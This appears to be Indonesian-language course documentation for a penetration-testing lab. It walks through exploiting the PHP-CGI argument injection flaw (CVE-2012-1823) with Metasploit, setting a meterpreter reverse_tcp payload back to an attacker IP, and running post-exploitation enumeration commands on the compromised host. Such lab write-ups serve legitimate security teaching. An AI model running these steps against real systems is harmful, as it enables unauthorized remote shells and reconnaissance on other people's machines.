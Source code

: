 ### Exploit : php_cgi_arg_injection, Post Exploitation : enum_system
1. Penjelasan exploit php_cgi_arg_injection dapat dilihat pada [https://pentesterlab.com/exercises/cve-2012-1823/course]
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/1.PNG?raw=true)
</p>
2. Vulnerability yang akan kita coba bobol kali ini akan menggunakan exploit yaitu php_cgi_arg_injection. Setelah membuka msfconsole, kita dapat memasukkan perintah `use exploit/multi/http/php_cgi_arg_injection`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/2.PNG?raw=true)
</p>
3. Masukkan IP alamat target yang akan diserang dengan memasukkan `set RHOST [IP_TARGET]`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/3.PNG?raw=true)
</p>
4. Payload yang akan kita gunakan adalah reverse_tcp, `set PAYLOAD php/meterpreter/reverse_tcp`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/4.PNG?raw=true)
</p>
5. Masukkan IP alamat penyerang, `set LHOST [IP_ATTACKER]`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/5.PNG?raw=true)
</p>
6. Untuk melihat status dapat dilakukan dengan `show options`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/6.PNG?raw=true)
</p>
7. Setelah kita masuk di meterpreter, kita dapa melihat list file dengan memasukkan `ls`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/7.PNG?raw=true)
</p>
8. Untuk mengetahui id/username dari session kita, masukkan `getuid`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/8.PNG?raw=true)
</p>
9. Untuk mendapatkan informasi dari komputer, masukkan `sysinfo`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/9.PNG?raw=true)
</p>
10. Untuk melakukan Post Exploitation, tekan ctrl+Z dan pilih `y`.
11. Post Exploitation yang akan kita jalankan adalah enum_system, yaitu untuk mendapatkan informasi dari sistem target. Masukkan `use post/linux/gather/enum_system`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/10.PNG?raw=true)
</p>
12. Set session sesuai ID session yang terbuka, `set SESSION [SESSION_ID]`.
13. Jalankan exploit dengan perintah `run`. Maka akan mendapatkan info seperti di bawah ini (karena session yang terbuka bukanlah root, jadi yang bisa kita dapatkan hanya sebatas informasi-informasi seperti OS).
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/PHP%20CGI/11.PNG?raw=true)
</p>
